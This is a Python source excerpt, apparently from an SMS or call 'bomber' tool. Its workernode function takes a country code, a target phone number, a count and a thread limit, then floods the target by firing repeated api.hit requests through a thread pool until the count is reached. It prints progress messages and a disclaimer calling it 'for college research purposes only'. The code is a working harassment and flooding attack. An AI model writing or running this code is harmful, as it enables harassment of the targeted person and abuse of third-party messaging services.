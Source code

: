 
def workernode(mode, cc, target, count, delay, max_threads):

    api = APIProvider(cc, target, mode, delay=delay)
    clr()
    mesgdcrt.SectionMessage("Gearing up the Bomber - Please be patient")
    mesgdcrt.GeneralMessage(
        "Please stay connected to the internet during bombing")
    mesgdcrt.GeneralMessage("API Version   : " + api.api_version)
    mesgdcrt.GeneralMessage("Target        : " + cc + target)
    mesgdcrt.GeneralMessage("Amount        : " + str(count))
    mesgdcrt.GeneralMessage("Threads       : " + str(max_threads) + " threads")
    mesgdcrt.GeneralMessage("Delay         : " + str(delay) +
                            " seconds")
    mesgdcrt.WarningMessage(
        "This tool was made for college research purposes only")
    print()
    input(mesgdcrt.CommandMessage(
        "Press [CTRL+Z] to suspend the bomber or [ENTER] to resume it"))

    if len(APIProvider.api_providers) == 0:
        mesgdcrt.FailureMessage("Your country/target is not supported yet")
        mesgdcrt.GeneralMessage("Feel free to reach out to us")
        input(mesgdcrt.CommandMessage("Press [ENTER] to exit"))
        bann_text()
        sys.exit()

    success, failed = 0, 0
    while success < count:
        with ThreadPoolExecutor(max_workers=max_threads) as executor:
            jobs = []
            for i in range(count-success):
                jobs.append(executor.submit(api.hit))

            for job in as_completed(jobs):
                result = job.result()
                if result is None:
                    mesgdcrt.FailureMessage(
                        "Bombing limit for your target has been reached")
                    mesgdcrt.GeneralMessage("Try Again Later !!")
                    input(mesgdcrt.CommandMessage("Press [ENTER] to exit"))
                    bann_text()
                    sys.exit()
                if result:
                    success += 1
                else:
                    failed += 1
                clr()
                pretty_print(cc, target, success, failed)
    print("\n")
    mesgdcrt.SuccessMessage("Bombing completed!")
    time.sleep(1.5)
    bann_text()
    sys.exit()
